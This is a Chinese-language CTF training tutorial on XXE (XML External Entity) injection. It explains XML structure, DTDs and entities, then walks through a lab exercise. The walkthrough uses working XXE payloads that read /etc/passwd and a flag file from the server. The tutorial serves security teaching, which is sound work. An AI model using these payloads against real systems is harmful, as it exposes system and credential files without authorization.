

# CTF网络安全培训教程：08：XXE漏洞详解与实战


在本节课中，我们将要学习CTF比赛中一种常见的Web安全漏洞——XML外部实体注入（XXE）。我们将从XML基础知识开始，逐步理解XXE漏洞的原理、危害，并通过一个简单的实操演示来加深理解。

---

## 📚 基础知识：XML文档结构

要了解XXE漏洞，首先必须明白XML文档的基础组成。XML是一种用于标记电子文件、使其具有结构性的标记语言，它允许用户自定义标记。

一个标准的XML文档结构通常包含以下三个部分：

1.  **XML声明**：定义XML的版本和编码。
2.  **DTD（文档类型定义）**：定义文档的合法构建模块。
3.  **文档元素**：文档的实际内容。

以下是XML文档的一个简单示例：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
<note>
  <to>George</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don‘t forget the meeting!</body>
</note>
```
*   第一行是XML声明。
*   `<!DOCTYPE note [...]>` 部分是DTD，它定义了`note`元素及其子元素。
*   `<note>...</note>` 部分是文档元素，其中`#PCDATA`表示可被解析的字符数据。

---

## 🔧 DTD的声明方式

DTD有两种定义方式：内部声明和外部引用。上一节我们介绍了XML的基础结构，本节中我们来看看DTD的具体声明方法。

**内部声明**的语法格式如下，DTD直接嵌入在XML文档内部：
```xml
<!DOCTYPE 根元素 [元素声明]>
```

**外部引用**则是将DTD定义在一个外部文件中，然后在XML中引用它。以下是外部引用的两种格式：

1.  引用本地DTD文件：
    ```xml
    <!DOCTYPE 根元素 SYSTEM “文件名”>
    ```
2.  引用公共DTD文件：
    ```xml
    <!DOCTYPE 根元素 PUBLIC “公共标识符” “文件名”>
    ```
例如，可以创建一个`root.dtd`文件存放DTD定义，然后在XML中通过`<!DOCTYPE root SYSTEM “root.dtd”>`来引用。

---

## ⚙️ XML实体与引用

理解了DTD的声明方式后，我们来看看XML中的核心概念之一：实体。实体可以理解为变量，用于定义引用普通文本或特殊字符的快捷方式。

实体分为内部实体和外部实体。以下是内部实体的声明与引用示例：
```xml
<!DOCTYPE test [
  <!ENTITY entity-name “这是实体内容”>
]>
<foo>&entity-name;</foo>
```
当XML解析器处理时，`&entity-name;`会被替换为“这是实体内容”并输出。

---

## 💥 XXE漏洞原理与利用

掌握了XML实体概念后，我们就可以深入理解XXE漏洞了。XXE（XML External Entity）漏洞的出发点，往往是应用程序在解析用户可控的XML数据时，没有禁止或过滤外部实体的加载。

攻击者可以构造恶意的XML文档，利用`SYSTEM`关键字声明外部实体，来读取服务器上的任意文件、执行系统命令、探测内网服务等。

以下是一个典型的利用XXE读取系统文件的Payload：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM “file:///etc/passwd”>
]>
<foo>&xxe;</foo>
```
当含有此外部实体声明的XML被解析时，服务器会尝试读取`/etc/passwd`文件的内容，并将其替换到`&xxe;`的位置，从而导致敏感信息泄露。

---

## 🖥️ XXE漏洞实战演示

理论需要结合实践。接下来，我们通过一个简单的靶场环境来演示XXE漏洞的利用过程。

假设有一个接收XML数据的API接口，我们需要测试其是否存在XXE漏洞。

**步骤1：测试XML解析是否正常**
首先，我们提交一个正常的XML数据，定义一个内部实体，看它是否能正确解析并输出。
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
  <!ENTITY test “test123”>
]>
<foo>&test;</foo>
```
提交后，如果页面输出“test123”，说明XML解析功能正常。

**步骤2：尝试利用XXE读取文件**
接着，我们构造一个恶意Payload，尝试读取服务器上的`/etc/passwd`文件。
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM “file:///etc/passwd”>
]>
<foo>&xxe;</foo>
```
提交此Payload，如果页面上显示了`/etc/passwd`文件的内容，则证明存在XXE漏洞，并且可以读取任意文件。

**步骤3：获取目标Flag**
在CTF比赛中，最终目标是找到Flag。我们可以继续利用该漏洞读取网站根目录下的Flag文件。
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM “file:///var/www/html/flag”>
]>
<foo>&xxe;</foo>
```
提交后，成功在响应中获取到Flag，题目完成。

---

## 📝 总结与展望

本节课中，我们一起学习了XXE漏洞的完整知识体系。



我们从**XML的基础文档结构**和**DTD声明方式**讲起，明白了XML的解析规则。然后，我们深入探讨了**XML实体**的概念，这是理解XXE的关键。在此基础上，我们分析了**XXE漏洞的产生原理与危害**，即通过注入恶意外部实体来实现任意文件读取、内网探测等攻击。最后，通过一个**实战演示**，我们完整地复现了发现并利用XXE漏洞读取敏感文件的过程。

XXE漏洞还有多种绕过方式和高级利用技巧，例如无回显XXE、利用协议进行内网攻击等。我们将在后续的课程中针对这些高级内容制作相应的教学视频。


---
**免责声明**：本课程内容仅用于CTF网络安全教学与培训，旨在提升安全防护意识与技能。请严格遵守《网络安全法》及相关法律法规，切勿将所学技术用于非法用途。